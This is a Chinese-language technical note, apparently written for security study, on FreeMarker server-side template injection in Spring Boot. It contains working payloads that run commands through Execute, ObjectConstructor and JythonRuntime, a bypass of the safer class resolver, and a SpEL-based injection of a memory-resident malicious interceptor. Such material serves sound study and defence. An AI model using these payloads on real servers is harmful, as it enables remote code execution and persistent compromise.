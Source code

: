 `Freemarker`也是`SpringBoot`官方支持的模板引擎之一

官方文档👉`https://freemarker.apache.org/`

`Template + data-model = output`

![image-20231221210241700](./../.gitbook/assets/image-20231221210241700.png)

下面maven坐标对应的freemarker版本为2.3.32

```xml
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.7.17</version>
</parent>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
</dependency>
```

# Intro

* 插值语法

使用插值语法（**interpolation**）来输出数据，即`${...}`

数值型插值：`#{7*7}`

* FTL标签

`FreeMarker`提供了类似HTML的标签 —— `FTL标签`，标签名字以`#`开头

```html
<#if condition>
    xxx
<#else>
    yyy
</#if>
    
<#list sequence as loopVariable>
    repeatThis
</#list>

<#include "../../../flag">
<#-- 会进行路径规范化，无法目录穿越读文件 -->

<#assign name1=value1 name2=value2 ... nameN=valueN>
<#-- 赋值语法 -->
```

* 内置函数

## ?api

`value?api.someJavaMethod()`或`value?api.someBeanProperty`

FreeMarker 2.3.22 开始支持，需要通过`Configurable.setAPIBuiltinEnabled(true)`或设置`api_builtin_enabled`（默认为false）

并不是所有值都支持`?api`，自定义的`TemplateModel`(实现了`freemarker.template.TemplateModelWithAPISupport`接口)可以支持`?api`

可以通过`value?has_api`来检测一个值是否支持`?api`

此外，`freemarker.ext.beans`下有一个配置文件`unsafeMethods.properties`，限制了一些常见敏感方法的调用

![image-20231221210259441](./../.gitbook/assets/image-20231221210259441.png)

2.3.30加入`java.security.ProtectionDomain.getClassLoader()`

## new

用于实例化一个实现了`freemarker.template.TemplateMethodModel`接口的类，调用其构造器并返回一个变量。

2.3.17开始，可以通过`Configuration.setNewBuiltinClassResolver(TemplateClassResolver.XXX)` 	  或设置 `new_builtin_class_resolver` 来限制这个内建函数对类的访问，官方提供了三个预定义的类解析器（`TemplateClassResolver`接口下有）

- **UNRESTRICTED_RESOLVER**：简单地调用`ClassUtil.forName(String)`。
- **SAFER_RESOLVER**：和第一个类似，但禁止解析`ObjectConstructor`，`Execute`和`JythonRuntime`。
- **ALLOWS_NOTHING_RESOLVER**：禁止解析任何类。

```yaml
spring:
  freemarker:
    cache: false
    settings:
      apiBuiltinEnabled: true
      new_builtin_class_resolver: safer
```

### `freemarker.template.utility.Execute`

类描述还贴心地说明了这个类的危险性

![image-20231221210314665](./../.gitbook/assets/image-20231221210314665.png)

```html
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("calc")}
```

### `freemarker.template.utility.ObjectConstructor`

![image-20231221210337055](./../.gitbook/assets/image-20231221210337055.png)

实例化任意类

```html
<#assign con="freemarker.template.utility.ObjectConstructor"?new()>
${con("java.lang.ProcessBuilder","calc").start()}
```

### `freemarker.template.utility.JythonRuntime`

能够执行python代码，默认没有jython依赖，需要引入

```xml
<dependency>
    <groupId>org.python</groupId>
    <artifactId>jython</artifactId>
    <version>2.7.2</version>
</dependency>
```

```html
<#assign value="freemarker.template.utility.JythonRuntime"?new()>
<@value>import os;os.system("calc")</@value>
```

# 关闭安全类解析器

发现`FreeMarkerView`是`AbstractTemplateView`子类，因此我们在模板中可以获取到Spring的宏变量`springMacroRequestContext`，接着获取注册到AOP容器中的`Configuration`模板配置对象，再调用`setNewBuiltinClassResolver`设置类解析器为普通的类解析器。

```html
<#assign ac=springMacroRequestContext.webApplicationContext>
<#assign fc=ac.getBean('freeMarkerConfiguration')>
<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>
<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>
${"freemarker.template.utility.Execute"?new()("calc")}
```

# 内存马注入

可以通过Spel表达式来注入

```html
<#assign con="freemarker.template.utility.ObjectConstructor"?new()>
<#assign expr="T(org.springframework.cglib.core.ReflectUtils).defineClass('EvilInterceptor',T(org.springframework.util.Base64Utils).decodeFromString('base64ClassBytes'),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()">
${con("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression(expr).getValue()}
```